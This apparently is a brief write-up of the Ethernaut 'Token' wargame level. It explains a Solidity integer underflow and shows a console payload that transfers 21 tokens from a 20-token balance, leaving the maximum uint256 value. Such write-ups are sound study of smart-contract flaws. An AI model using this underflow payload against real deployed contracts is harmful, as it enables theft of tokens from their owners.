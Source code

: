 # Token

Classic Underflow vulnerability, in which a 20 - 21 = -ve number which returns the max num of uint (abbrev. of uint256). Though, on recent versions of Solidity is much less common due to compiler safety and reversion of txn.

```Solidity
// https://dev.to/nvn/ethernaut-hacks-level-5-token-2j4o
// Payload to cause underflow
await contract.transfer('0x0000000000000000000000000000000000000000', 21)

await contract.balanceOf(player).then(v => v.toString())
// return: '115792089237316195423570985008687907853269984665640564039457584007913129639935'
```
